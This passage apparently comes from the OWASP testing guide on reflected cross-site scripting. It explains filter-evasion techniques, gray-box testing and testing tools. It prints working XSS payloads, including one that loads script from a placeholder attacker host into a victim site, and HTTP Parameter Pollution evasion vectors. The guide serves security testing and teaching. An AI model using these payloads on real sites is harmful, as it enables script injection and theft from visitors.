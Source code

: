 In this scenario there is a regular expression checking if `<script [anything but the character: '>'] src` is inserted. This is useful for filtering expressions like

`<script src="http://attacker/xss.js"></script>`

which is a common attack. But, in this case, it is possible to bypass the sanitization by using the “&gt;” character in an attribute between script and src, like this:

`http://example/?var=<SCRIPT%20a=">"%20SRC="http://attacker/xss.js"></SCRIPT>`

This will exploit the reflected cross site scripting vulnerability shown before, executing the javascript code stored on the attacker's web server as if it was originating from the victim web site, `http://example/`.

#### Example 7: HTTP Parameter Pollution (HPP)

Another method to bypass filters is the HTTP Parameter Pollution, this technique was first presented by Stefano di Paola and Luca Carettoni in 2009 at the OWASP Poland conference. See the [Testing for HTTP Parameter pollution](4.8.4_Testing_for_HTTP_Parameter_Pollution_WSTG-INPVAL-004.md) for more information. This evasion technique consists of splitting an attack vector between multiple parameters that have the same name. The manipulation of the value of each parameter depends on how each web technology is parsing these parameters, so this type of evasion is not always possible. If the tested environment concatenates the values of all parameters with the same name, then an attacker could use this technique in order to bypass pattern- based security mechanisms.
Regular attack:

`http://example/page.php?param=<script>[...]</script>`

Attack using HPP:

`http://example/page.php?param=<script&param=>[...]</&param=script>`

See the [XSS Filter Evasion Cheat Sheet](https://owasp.org/www-community/xss-filter-evasion-cheatsheet) for a more detailed list of filter evasion techniques. Finally, analyzing answers can get complex. A simple way to do this is to use code that pops up a dialog, as in our example. This typically indicates that an attacker could execute arbitrary JavaScript of his choice in the visitors' browsers.

### Gray-Box Testing

Gray-box testing is similar to black-box testing. In gray-box testing, the pen-tester has partial knowledge of the application. In this case, information regarding user input, input validation controls, and how the user input is rendered back to the user might be known by the pen-tester.

If source code is available (white-box testing), all variables received from users should be analyzed. Moreover the tester should analyze any sanitization procedures implemented to decide if these can be circumvented.

## Tools

- [PHP Charset Encoder(PCE)](https://cybersecurity.wtf/encoder/)
    This tool helps you encode arbitrary texts to and from 65 kinds of charsets. Also some encoding functions featured by JavaScript are provided.
- [HackVertor](https://hackvertor.co.uk/public)
    It provides multiple dozens of flexible encoding for advanced string manipulation attacks.
- [XSS-Proxy](http://xss-proxy.sourceforge.net)
    XSS-Proxy is an advanced Cross-Site-Scripting (XSS) attack tool.
- [ratproxy](https://code.google.com/archive/p/ratproxy/)
    A semi-automated, largely passive web application security audit tool, optimized for an accurate and sensitive detection, and automatic annotation, of potential problems and security-relevant design patterns based on the observation of existing, user-initiated traffic in complex web 2.0 environments.
- [Burp Proxy](https://portswigger.net/burp)
    Burp Proxy is an interactive HTTP/S proxy server for attacking and testing web applications.
- [OWASP Zed Attack Proxy (ZAP)](https://www.zaproxy.org)